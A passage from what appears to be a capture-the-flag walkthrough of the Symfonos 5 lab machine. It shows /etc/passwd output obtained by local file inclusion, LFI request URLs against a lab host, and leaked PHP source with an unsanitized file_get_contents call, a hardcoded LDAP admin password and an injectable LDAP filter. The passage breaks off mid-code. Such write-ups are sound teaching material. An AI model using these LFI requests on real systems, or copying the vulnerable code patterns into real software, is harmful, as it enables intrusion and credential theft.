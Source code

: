 ```
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

- We don't see any usernames here.
- Now lets see if we can read the `home.php` file with LFI.
- ```
  http://10.0.2.10/home.php?url=home.php
  ```

![Symfonos 5 home.php LFI](/imgs/symfonos5/symfonos5_home_php.png)

- And if we check the source code with `Ctrl + U`, we can see some PHP code.

```php
<?php
session_start();

if(!isset($_SESSION['loggedin'])){
  header("Location: admin.php");
  exit;
}

if(!empty($_GET["url"])){
  $r = $_GET["url"];
  $result = file_get_contents($r);
}
?>
```

- Lets check `admin.php`.
- ```
  http://10.0.2.10/home.php?url=admin.php
  ```
- It seems to load the same login page we saw but if we check its source with `Ctrl + U`, we can see some PHP code.

```php
<?php
session_start();

if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: home.php");
    exit;
}

function authLdap($username, $password) {
  $ldap_ch = ldap_connect("ldap://172.18.0.22");

  ldap_set_option($ldap_ch, LDAP_OPT_PROTOCOL_VERSION, 3);

  if (!$ldap_ch) {
    return FALSE;
  }

  $bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

  if (!$bind) {
    return FALSE;
  }

  $filter = "(&(uid=$username)(userPassword=$password))";
  $result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);

  ```